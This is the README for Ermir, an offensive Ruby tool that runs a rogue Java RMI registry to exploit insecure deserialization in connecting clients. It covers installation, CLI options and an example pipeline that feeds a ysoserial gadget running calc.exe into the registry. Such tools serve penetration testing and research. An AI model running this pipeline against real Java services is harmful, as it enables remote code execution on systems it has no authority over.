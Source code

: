 # Ermir

Ermir is an Evil/Rogue RMI Registry, it exploits unsecure deserialization on any Java code calling standard RMI methods on it (`list()`/`lookup()`/`bind()`/`rebind()`/`unbind()`).

# Requirements

- Ruby v3.0.3 or newer.

## Installation

Install Ermir from rubygems.org:

    $ gem install ermir

or clone the repo and build the gem:

    $ git clone https://github.com/hakivvi/ermir.git
    $ rake install

## Usage

Ermir is a cli gem, it comes with 2 cli files, `ermir` and `gadgetmarshal`, `ermir` is the actual gem and the latter is just a pretty interface to `GadgetMarshaller.java` file which rewrites the gadgets of Ysoserial to match `MarshalInputStream` requirements, the output should be then piped into `ermir` or a file.

`ermir` usage:
```text
Ermir by @hakivvi * https://github.com/hakivvi/ermir.
Info:
    Ermir is a Rogue/Evil RMI Registry which exploits unsecure Java deserialization on any Java code calling standard RMI methods on it.
Usage: ermir [options]
    -l, --listen   bind the RMI Registry to this ip and port (default: 0.0.0.0:1099).
    -f, --file     path to file containing the gadget to be deserialized.
    -p, --pipe     read the serialized gadget from the standard input stream.
    -v, --version  print Ermir version.
    -h, --help     print options help.
Example:
    $ gadgetmarshal /path/to/ysoserial.jar Groovy1 calc.exe | ermir --listen 127.0.0.1:1099 --pipe
```
`gadgetmarshal` usage:
```text
Usage: gadgetmarshal /path/to/ysoserial.jar Gadget1 cmd (optional)/path/to/output/file
```

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ermir. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [code of conduct](https://github.com/[USERNAME]/ermir/blob/master/CODE_OF_CONDUCT.md).

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the Ermir project's codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/hakivvi/ermir/blob/master/CODE_OF_CONDUCT.md).
